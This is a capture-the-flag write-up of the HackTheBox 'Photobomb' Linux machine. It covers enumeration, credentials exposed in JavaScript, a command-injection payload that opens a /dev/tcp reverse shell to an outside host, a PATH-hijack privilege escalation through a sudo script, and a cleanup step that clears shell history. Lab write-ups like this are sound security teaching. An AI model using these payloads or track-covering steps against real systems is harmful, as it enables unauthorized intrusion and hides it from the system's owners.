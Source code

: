 # HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb 10.10.11.182  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
10.10.11.182    photobomb.htb  

*Figure 1 – Nmap scan results*  
*Figure 2 – /etc/hosts modification*

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*

### Command Injection
POST request to /printer vulnerable to command injection in parameter filetype.  
Example payload: filetype=jpg;id  
Response confirmed execution of system command id.  

*Figure 4 – Burp Suite request showing command injection*

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/10.10.14.2/4444 0>&1  
Listener: nc -lvnp 4444  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag*  
*Figure 10 – Root flag*

---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.
